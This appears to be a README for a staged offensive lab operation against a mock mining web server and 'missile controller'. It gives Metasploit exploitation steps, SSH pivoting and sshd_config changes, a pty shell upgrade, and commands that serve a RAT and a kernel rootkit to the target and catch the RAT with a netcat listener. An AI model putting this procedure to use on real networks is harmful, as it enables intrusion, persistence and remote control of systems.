 # OrangeHeimer
## Network Diagram
![OrangeHeimerNetwerk](https://github.com/user-attachments/assets/d6b00e75-2c73-411a-b7a7-92f11a9e2214)
## Stage 1: Oranco Mining Web Server Exploitation
### Objective
Exploit web server and set up connection to internal relay SSH
### Files:
- orangeland.py
- stage1.rc
### IPs and Ports:
All can be customized in stage1.rc file
- thrower box 10.0.1.21:4444
- oranco Web 10.0.1.1:8443
- thrower SSH 127.0.0.1:22
- relay SSH 172.31.82.221:22
### How to Run:
- run "chmod +x orangeland.py"
- move orangeland.py into metasploit-framework/embedded/framework/modules/exploits/unix/webapp/
- run "msfconsole -r exploit.rc" -- this may need to be run with sudo depending on computer configs
### Possible Failures and Solutions:
Orangeland.py has been tested on multiple ops and should work, if it doesn’t, then verbally harass the analysts.  
If portfwd fails:
- verify that the SSH server is running at the IP and port as indicated, if they are different, re run the portfwd command with -p <SSH_PORT> -r <SSH_IP>
- run "shell" in meterpreter, upgrade using "python3 -c 'import pty; pty.spawn("/bin/bash")'", and verify that the SSH credentials work
- run the portfwd command with a different thrower port using -l <THROW_PORT> Note, this means that all future SSH commands cannot use sshpass and must use -p <THROW_PORT>  
## Stage 2: Setting up Network Communication
### Objective
Set up direct communication between orangeland and device controller using SSH port forwarding
### Files:
- stage2.sh
### IPs and Ports
Can be customized by editing stage2.sh
- thorwer SSH 127.0.0.1:22
- relay SSH 172.31.82.221:22
- thorwer -> controller port forward 127.0.0.1:4200 -> 172.31.86.120:8080
- first relay SSH -> thrower port forward (from controller) 172.100.0.1:4242 -> 127.0.0.1:4201
- second relay SSH -> thrower port forward (from controller) 172.100.0.1:4243 -> 127.0.0.1:4202
### How to Run:
- execute and verify stage 1
- run "./stage2.sh"
- verify success by opening http://localhost:4200 in a web browser, this should return a "Forbidden" page
### Possible Failures and Solutions:
If you cannot SSH into localhost:
- run shell in meterpreter
- upgrade using python3 -c 'import pty; pty.spawn("/bin/bash")'
- SSH into the server with ssh -Nf missileadmin@172.31.81.221
- run SSH reconfiguration commands and verify success
- execute port forwarding commands, using 10.0.1.1 instead of 127.0.0.1
  
If an error occurs in the reconfiguration of the SSH server:
- SSH into the server from localhost
- Check if /etc/ssh/sshd_config has 'GatewayPorts yes' in its last line, if not then sudo su and add it
- Restart ssh service, this can be done with "service ssh restart" or "systemctl restart ssh"
- Continue with normal port forwarding commands

If the commands execute normally, but no response is received from http://localhost:4200
- SSH into the server from localhost
- Run "netstat -plant", check if the output contains a TCP listener on 0.0.0.0:4242
- If the netstat does contain the TCP listener, it indicates that the mastersockets works. Verify that the controller is up and has the correct IP address with the analysts. Then attempt to rerun the first mastersockets command.
- If the netstat has the TCP listener on 127.0.0.1 instead of 0.0.0.0, then the server is not configured properly. Go through the confiugration remediation steps.
- If the netstat has no TCP listener on port 4242, or netstat -plant on the thrower has no open TCP listener on 0.0.0.0:4200, then it is a problem with SSH port forwarding. SSH into the server and determine the issue.  
## Stage 3: Exploiting the Missile Controller
### Files
- orangeRodent
- stage3.py
- dolos_rootkit.ko
### IPs and Ports
Can be edited through changing orangeRodent.c and re-cross-compiling and by editing stage3.py
- thorwer -> controller port forward 127.0.0.1:4200 -> 172.31.86.120:8080
- first relay SSH -> thrower port forward (from controller) 172.100.0.1:4242 -> 127.0.0.1:4201
- second relay SSH -> thrower port forward (from controller) 172.100.0.1:4243 -> 127.0.0.1:4202
### How to Run
- execute and verify stages 1 and 2
- run "python3 -m http.server 4201" in a directory with the orangeRodent and dolos_rootkit.ko to serve the controller the implant 
- run "nc -lv 4202" in a separate terminal to listen for the rat
- run "python3 stage3.py" to throw the exploit
### Possible Failures and Solutions:
If there is no request made to wget:
- TODO  
If there is a request to wget, but the netcat listener never catches the rat:
- TODO  
If the netcat listener receives the rat, but the rootkit is not up:
- TODO
